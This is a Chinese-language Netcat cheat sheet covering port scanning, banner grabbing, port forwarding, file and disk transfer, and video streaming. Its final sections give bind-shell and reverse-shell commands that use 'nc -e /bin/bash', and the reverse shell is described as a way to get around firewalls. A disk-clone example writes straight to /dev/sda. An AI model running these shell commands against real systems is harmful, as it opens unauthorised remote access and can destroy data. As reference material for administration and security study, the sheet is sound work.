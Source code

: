 Netcat 备忘清单
===

该备忘单提供了在 Linux 和 Unix 上使用 Netcat 的各种方法。

入门
------
<!--rehype:body-class=cols-5-->

### 用法
<!--rehype:wrap-class=col-span-2-->

连接到位于任何地方的主机

```shell
$ nc [options] [host] [port]
```

监听传入连接

```shell 
$ nc -lp port [host] [port]
```

### 选项示例
<!--rehype:wrap-class=col-span-3 row-span-2-->


选项 | 示例 | 说明 
:- | :- | :-
`-h`   | nc -h                      | 帮助
`-z`   | nc -z 192.168.1.9 1-100    | 端口扫描主机或 `IP` 地址
`-v`   | nc -zv 192.168.1.9 1-100   | 提供详细输出
`-n`   | nc -zn 192.168.1.9 1-100   | 通过禁用 `DNS` 解析进行快速扫描
`-l`   | nc -lp 8000                | `TCP` 侦听模式 _(用于入站连接)_
`-w`   | nc -w 180 192.168.1.9 8000 | 定义超时值
`-k`   | nc -kl 8000                | 断线后继续收听
`-u`   | nc -u 192.168.1.9 8000     | 使用 `UDP` 而不是 `TCP`
`-q`   | nc -q 1 192.168.1.9 8000   | 客户在 `EOF` 后熬夜
`-4`   | nc -4 -l 8000              | 仅限 `IPv4`
`-6`   | nc -6 -l 8000              | 仅限 `IPv6`


### 聊天客户端-服务器
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

Netcat 示例
--------

### Banner 抓取

```shell
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

或者

```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### 端口扫描

扫描 `21` 到 `25` 之间的端口

```shell
$ nc -zvn 192.168.1.1 21-25
```

扫描端口 `22`、`3306` 和 `8080`

```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### 代理和端口转发

```shell
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

或者

```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

创建从一个本地端口到另一个本地端口的隧道

### 下载文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 < file.txt
```

客户端 Client

```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

假设您想将文件 `file.txt` 从服务器 A 传输到客户端 B。

### 上传文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 > file.txt
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 < file.txt
```

假设您想将文件 `file.txt` 从客户端 `B` 传输到服务器 `A`

### 目录传输

服务器 Server (192.168.1.9)

```shell
$ tar -cvf – dir_name | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

假设您想通过网络将目录从 `A` 传输到 `B`

### 加密传输
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

客户端 Client

```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

在通过网络传输之前加密数据

### 克隆

服务器 Server (192.168.1.9)

```shell
$ dd if=/dev/sda | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

克隆 linux PC 非常简单。假设你的系统盘是 /dev/sda

### 视频流

服务器 Server (192.168.1.9)

```shell
$ cat video.avi | nc -l 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

使用 netcat 流式传输视频

### 远程 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 -e /bin/bash
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

我们已经使用 `telnet` 和 `ssh` 使用远程 `Shell`，但是如果它们没有安装并且我们没有安装它们的权限，那么我们也可以使用 `netcat` 创建远程 `shell`

### 逆转 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

反向 `shell` 通常用于绕过防火墙限制，例如阻止入站连接